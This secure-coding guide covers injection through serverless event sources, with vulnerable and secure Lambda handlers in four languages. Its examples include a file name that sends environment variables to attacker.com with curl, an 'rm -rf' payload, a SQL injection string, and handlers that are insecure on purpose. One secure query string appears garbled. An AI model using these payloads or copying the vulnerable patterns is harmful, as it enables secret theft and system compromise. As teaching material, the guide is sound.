

# 03 - Event Data Injection and Sanitization

In traditional web applications, input validation is concentrated at the HTTP API layer where Web Application Firewalls (WAFs) inspect incoming web traffic. In serverless architectures, however, **event sources are highly heterogeneous**. A serverless function can be triggered asynchronously by file uploads in storage buckets (S3), message queues (SQS), event buses (EventBridge), database modification streams (DynamoDB Streams), or WebSockets.

Because non-HTTP event sources bypass traditional edge WAFs, developers frequently assume that event payloads are trusted. This assumption leads to **Event-Driven Data Injection**—one of the top vulnerabilities in serverless computing.

---

## ⚡ Event Data Pipeline & Injection Mechanics



### Event Object Structures

Every cloud provider formats event structures differently. Consider the AWS S3 `ObjectCreated` event snippet:

```json
{
  "Records": [
    {
      "eventVersion": "2.1",
      "eventSource": "aws:s3",
      "s3": {
        "bucket": { "name": "user-file-uploads" },
        "object": {
          "key": "report.pdf;+curl+http://attacker.com/steal?c=$(env|base64)",
          "size": 1024
        }
      }
    }
  ]
}
```
*If code extracts `event['Records'][0]['s3']['object']['key']` and passes it directly to a system shell command, command injection occurs instantly upon file upload.*

---

## 💻 Multi-Language Code Examples: Vulnerable vs Secure

Below are side-by-side implementations across four major FaaS runtimes: **Python**, **Node.js (TypeScript)**, **Go**, and **Java**.

---

### 1. Python (AWS Lambda / S3 Event Command Injection)

#### ❌ Vulnerable Python Pattern
```python
import json
import urllib.parse
import subprocess

def lambda_handler(event, context):
    """
    VULNERABLE: Extracts object key from S3 event and passes it directly
    to a system shell command via subprocess with shell=True.
    """
    for record in event.get('Records', []):
        bucket_name = record['s3']['bucket']['name']
        # URL decode filename
        object_key = urllib.parse.unquote_plus(record['s3']['object']['key'])
        
        # Danger: Attacker uploads file named "avatar.png; curl attacker.com/exfil"
        # Command execution occurs in shell context!
        command = f"convert /tmp/{object_key} -resize 100x100 /tmp/thumb_{object_key}"
        
        # VULNERABLE: shell=True interprets shell metacharacters (; & | $)
        subprocess.run(command, shell=True, check=True)
        
    return {"statusCode": 200, "body": "Processed"}
```

#### ✅ Secure Python Pattern
```python
import json
import urllib.parse
import subprocess
import re
from pydantic import BaseModel, Field, ValidationError

class S3ObjectKeyModel(BaseModel):
    # Strict regex validation: only allow alphanumeric, dots, dashes, underscores
    filename: str = Field(..., pattern=r'^[a-zA-Z0-9_\-\.]+$')

def lambda_handler(event, context):
    """
    SECURE: Validates key against Pydantic schema and invokes subprocess
    using an argument array without shell execution.
    """
    for record in event.get('Records', []):
        raw_key = urllib.parse.unquote_plus(record['s3']['object']['key'])
        
        # 1. Input Validation: Validate input format
        try:
            validated = S3ObjectKeyModel(filename=raw_key)
            safe_key = validated.filename
        except ValidationError as e:
            print(f"SECURITY ALERT: Invalid S3 object key format detected: {raw_key}")
            raise ValueError("Invalid object key format")

        input_path = f"/tmp/{safe_key}"
        output_path = f"/tmp/thumb_{safe_key}"

        # 2. Safe Subprocess Execution: Array form, shell=False (default)
        # Operating system treats argument strictly as string data, never executable code
        cmd = ["convert", input_path, "-resize", "100x100", output_path]
        
        try:
            result = subprocess.run(
                cmd,
                shell=False,
                capture_output=True,
                text=True,
                check=True,
                timeout=5  # Enforce execution timeout
            )
        except subprocess.CalledProcessError as e:
            print(f"Image processing error: {e.stderr}")
            raise RuntimeError("Processing failed")

    return {"statusCode": 200, "body": "Successfully processed"}
```

---

### 2. Node.js / TypeScript (API Gateway / SQL Injection & Schema Validation)

#### ❌ Vulnerable Node.js Pattern
```typescript
import { APIGatewayProxyEvent, APIGatewayProxyResult } from 'aws-lambda';
import { Client } from 'pg';

export const handler = async (event: APIGatewayProxyEvent): Promise<APIGatewayProxyResult> => {
    // VULNERABLE: Direct string concatenation of body into raw SQL query
    const body = JSON.parse(event.body || '{}');
    const userEmail = body.email; // Attacker sends: "admin@corp.com' OR '1'='1"

    const client = new Client({ connectionString: process.env.DATABASE_URL });
    await client.connect();

    // Dangerous SQL query string concatenation
    const query = `SELECT * FROM users WHERE email = '${userEmail}'`;
    const result = await client.query(query);
    await client.end();

    return {
        statusCode: 200,
        body: JSON.stringify(result.rows)
    };
};
```

#### ✅ Secure Node.js Pattern
```typescript
import { APIGatewayProxyEvent, APIGatewayProxyResult } from 'aws-lambda';
import { Client } from 'pg';
import { z } from 'zod';

// Define strict runtime validation schema using Zod
const RequestSchema = z.object({
    email: z.string().email().max(255),
    limit: z.number().int().min(1).max(50).optional().default(10)
});

export const handler = async (event: APIGatewayProxyEvent): Promise<APIGatewayProxyResult> => {
    try {
        // 1. Schema Validation
        const rawBody = JSON.parse(event.body || '{}');
        const parseResult = RequestSchema.safeParse(rawBody);

        if (!parseResult.success) {
            return {
                statusCode: 400,
                body: JSON.stringify({ error: "Invalid input payload", details: parseResult.error.format() })
            };
        }

        const { email, limit } = parseResult.data;

        // 2. Parameterized Database Query (Prepared Statement)
        const client = new Client({ connectionString: process.env.DATABASE_URL });
        await client.connect();

        const safeQuery = 'SELECT id, email, created_at FROM users WHERE email = `$1 LIMIT $`2';
        const result = await client.query(safeQuery, [email, limit]);
        await client.end();

        return {
            statusCode: 200,
            headers: { 'Content-Type': 'application/json', 'X-Content-Type-Options': 'nosniff' },
            body: JSON.stringify(result.rows)
        };
    } catch (err: any) {
        console.error("Internal execution error:", err.message);
        return {
            statusCode: 500,
            body: JSON.stringify({ error: "Internal processing error" })
        };
    }
};
```

---

### 3. Go (SQS Event / Command Injection & Path Traversal)

#### ❌ Vulnerable Go Pattern
```go
package main

import (
	"context"
	"fmt"
	"os/exec"
	"github.com/aws/aws-lambda-go/events"
	"github.com/aws/aws-lambda-go/lambda"
)

// VULNERABLE: Executes shell command built from unvalidated SQS message body
func HandleRequest(ctx context.Context, sqsEvent events.SQSEvent) error {
	for _, record := range sqsEvent.Records {
		filename := record.Body // Attacker payload: "file.txt && rm -rf /tmp/*"
		
		// Dangerous shell invocation
		cmd := exec.Command("sh", "-c", fmt.Sprintf("cat /tmp/%s", filename))
		out, err := cmd.CombinedOutput()
		if err != nil {
			return err
		}
		fmt.Println("Output:", string(out))
	}
	return nil
}

func main() {
	lambda.Start(HandleRequest)
}
```

#### ✅ Secure Go Pattern
```go
package main

import (
	"context"
	"errors"
	"fmt"
	"os/exec"
	"path/filepath"
	"regexp"
	"strings"
	"github.com/aws/aws-lambda-go/events"
	"github.com/aws/aws-lambda-go/lambda"
)

var validFilenameRegex = regexp.MustCompile(`^[a-zA-Z0-9_\-]+\.[a-zA-Z0-9]+$`)

// SECURE: Validates filename format, prevents path traversal, avoids shell execution
func HandleRequest(ctx context.Context, sqsEvent events.SQSEvent) error {
	for _, record := range sqsEvent.Records {
		rawFilename := strings.TrimSpace(record.Body)

		// 1. Regex Validation
		if !validFilenameRegex.MatchString(rawFilename) {
			fmt.Printf("SECURITY ALERT: Malformed filename in SQS record: %s\n", rawFilename)
			return errors.New("invalid filename format")
		}

		// 2. Prevent Path Traversal
		cleanPath := filepath.Clean(filepath.Join("/tmp", rawFilename))
		if !strings.HasPrefix(cleanPath, "/tmp/") {
			return errors.New("path traversal attempt blocked")
		}

		// 3. Safe Command Execution (Direct Binary Call, No 'sh -c')
		cmd := exec.Command("/bin/cat", cleanPath)
		out, err := cmd.CombinedOutput()
		if err != nil {
			fmt.Printf("Command failed: %v, output: %s\n", err, string(out))
			return err
		}

		fmt.Println("File processed safely, size:", len(out))
	}
	return nil
}

func main() {
	lambda.Start(HandleRequest)
}
```

---

### 4. Java (DynamoDB Stream / Jackson Deserialization Flaw)

#### ❌ Vulnerable Java Pattern
```java
package com.appsec.lambda;

import com.amazonaws.services.lambda.runtime.Context;
import com.amazonaws.services.lambda.runtime.RequestHandler;
import com.amazonaws.services.lambda.runtime.events.DynamodbEvent;
import com.fasterxml.jackson.databind.ObjectMapper;

public class StreamProcessor implements RequestHandler<DynamodbEvent, String> {

    @Override
    public String handleRequest(DynamodbEvent event, Context context) {
        ObjectMapper mapper = new ObjectMapper();
        // VULNERABLE: Enabling polymorphic default typing allows insecure deserialization RCE
        mapper.enableDefaultTyping();

        for (DynamodbEvent.DynamodbStreamRecord record : event.getRecords()) {
            String rawJsonData = record.getDynamodb().getNewImage().get("payload").getS();
            try {
                // Dangerous Jackson deserialization payload execution
                Object obj = mapper.readValue(rawJsonData, Object.class);
            } catch (Exception e) {
                context.getLogger().log("Error parsing stream: " + e.getMessage());
            }
        }
        return "SUCCESS";
    }
}
```

#### ✅ Secure Java Pattern
```java
package com.appsec.lambda;

import com.amazonaws.services.lambda.runtime.Context;
import com.amazonaws.services.lambda.runtime.RequestHandler;
import com.amazonaws.services.lambda.runtime.events.DynamodbEvent;
import com.fasterxml.jackson.databind.DeserializationFeature;
import com.fasterxml.jackson.databind.ObjectMapper;

public class StreamProcessor implements RequestHandler<DynamodbEvent, String> {

    // Immutable DTO for strict deserialization mapping
    public static class OrderPayload {
        private String orderId;
        private double amount;

        public String getOrderId() { return orderId; }
        public void setOrderId(String orderId) { this.orderId = orderId; }
        public double getAmount() { return amount; }
        public void setAmount(double amount) { this.amount = amount; }
    }

    private static final ObjectMapper MAPPER = new ObjectMapper()
            .disable(DeserializationFeature.FAIL_ON_UNKNOWN_PROPERTIES);
            // Default typing is explicitly DISABLED to prevent polymorphic RCE

    @Override
    public String handleRequest(DynamodbEvent event, Context context) {
        for (DynamodbEvent.DynamodbStreamRecord record : event.getRecords()) {
            if (record.getDynamodb() != null && record.getDynamodb().getNewImage() != null) {
                var payloadAttr = record.getDynamodb().getNewImage().get("payload");
                if (payloadAttr != null && payloadAttr.getS() != null) {
                    try {
                        // 1. Strict Typing Deserialization to explicit POJO class
                        OrderPayload payload = MAPPER.readValue(payloadAttr.getS(), OrderPayload.class);
                        
                        // 2. Validate Fields
                        if (payload.getOrderId() == null || !payload.getOrderId().matches("^[a-zA-Z0-9\\-]+$")) {
                            context.getLogger().log("SECURITY WARNING: Invalid Order ID format");
                            continue;
                        }
                        
                        context.getLogger().log("Processed valid order: " + payload.getOrderId());
                    } catch (Exception e) {
                        context.getLogger().log("JSON parsing error: " + e.getMessage());
                    }
                }
            }
        }
        return "SUCCESS";
    }
}
```

---

## 🛡️ Production Validation & Sanitization Frameworks

### 1. API Gateway Request Schema Validation (OpenAPI / JSON Schema)

Validate HTTP event payloads **at the API Gateway edge** before invoking Lambda functions:

```json
{
  "$schema": "http://json-schema.org/draft-04/schema#",
  "title": "CreateUserRequest",
  "type": "object",
  "required": ["username", "email"],
  "properties": {
    "username": {
      "type": "string",
      "pattern": "^[a-zA-Z0-9_]{3,30}$"
    },
    "email": {
      "type": "string",
      "format": "email"
    }
  },
  "additionalProperties": false
}
```

### 2. Defense-in-Depth Validation Checklist

1. **Edge Schema Enforcement:** Configure API Gateway or Cloudfront WAF to reject invalid HTTP request payloads.
2. **Runtime Code Schema Validation:** Use runtime libraries (`Zod` in Node, `Pydantic` in Python, `Jackson POJO` in Java) inside function handlers.
3. **Avoid Shell Invocation:** Never pass event data to `subprocess(shell=True)`, `exec()`, `system()`, or `sh -c`. Use argument arrays.
4. **Parameterized Data Access:** Use prepared statements for SQL, native DocumentClient binding for NoSQL, and clean path verification for filesystem access.
